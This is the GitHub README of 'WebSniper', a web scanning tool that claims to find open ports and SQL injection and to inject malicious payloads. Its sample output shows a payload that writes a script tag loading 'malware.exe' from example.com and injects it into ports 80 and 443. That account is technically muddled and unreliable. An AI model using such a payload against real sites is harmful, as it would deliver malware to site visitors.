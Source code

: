 # WebSniper
WebSniper is a powerful web security scanning tool that can help you identify potential vulnerabilities in your web applications. With its advanced scanning capabilities, WebSniper can quickly and accurately detect open ports, SQL injection vulnerabilities, and other security weaknesses. 

# i have created more advanced branches of this tool , will be uploading as websniper1.o.py

## Features
- Scans for open ports on web servers
- Injects malicious payloads into web applications to test for vulnerabilities
- Detects SQL injection vulnerabilities
- Provides detailed reports of scanning results
- easy-to-use command-line interface
## Result
```bash
[+] Scanning for open ports...
[+] Open ports: [80, 443]
[+] Creating payload...
[+] Payload created: {'command': "echo '<html><body><script src='http://example.com/malware.exe'></script></body></html>'"}
[+] Injecting payload...
Payload injected successfully on port 80
Payload injected successfully on port 443
[+] Scanning for SQL injection vulnerabilities...
[-] No SQL injection vulnerabilities found.

The script found two open ports (80 and 443) and successfully injected the payload on both of them. No SQL injection vulnerabilities were found.
```
## Installation
* To install WebSniper, simply clone the repository and run the websniper.py script:
Clone the repository:
```bash
 git clone https://github.com/<your-github-username>/websniper.git 
```
* Navigate to the repository directory: 
```bash
cd websniper
```

Make the script executable:
```bash
 chmod +x websniper.py
```

## websniper1.o Installation

Clone the repository:
```bash
 git clone https://github.com/<your-github-username>/websniper.git 
```
* Navigate to the repository directory: 
```bash
cd websniper
```

Make the script executable:
```bash
 chmod +x websniper1.o.py
```

## Usage

To use WebSniper, simply run the websniper.py script followed by the target URL:
```bash
./websniper.py <target-url>

```
WebSniper will first perform a quick scan of the website and output a captivating message based on the scan results. Then, the script will continue to search for vulnerabilities, including open ports and SQL injection vulnerabilities.

## websniper1.o Usage 

```bash
./websniper1.o.py <target-url>

```


## Disclaimer
Please note that unauthorized scanning or attacking of websites is illegal and unethical. Always obtain proper authorization before performing any security testing.

## License

WebSniper is released under the MIT License. See LICENSE for details.

## Contributing
Contributions are welcome! If you'd like to contribute to WebSniper, please submit a pull request.

